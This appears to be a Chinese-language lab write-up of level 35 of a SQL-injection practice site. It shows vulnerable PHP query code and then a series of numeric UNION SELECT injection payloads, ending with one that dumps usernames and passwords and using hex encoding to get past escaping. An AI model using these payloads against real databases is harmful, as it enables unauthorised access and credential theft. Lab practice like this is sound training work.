 ```yaml
---
title: less35
url: https://www.yuque.com/u29002979/ep2zrx/xhk8kn8yghrwc522
---
```


```bash
function check_addslashes($string)
{
    $string = addslashes($string);
    return $string;
}

mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

**get,数字型注入**。

`?id=1 and 1=1--+`返回正常
`?id=1 and 1=2--+`没有报错回显

`?id=1 order by 4--+`没有第4列
`?id=1 order by 3--+`返回正常
3个字段

数字型注入唯一需要注意的是
在查询字段时，**数据表名使用十六进制**即可，其他地方没有转义 。 <a name="RN6n1"></a>

# 数字型注入

```bash
爆破数据库名称 
?id=-1 union select 1,2,database()--+

爆破数据库表名称
?id=-1 union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
爆破字段的时候需要将数据表的名字进行十六进制编码，防止转义  
users的16进制是0x7573657273

?id=-1 union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name=0x7573657273--+

爆破字段内容
?id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users)--+
```
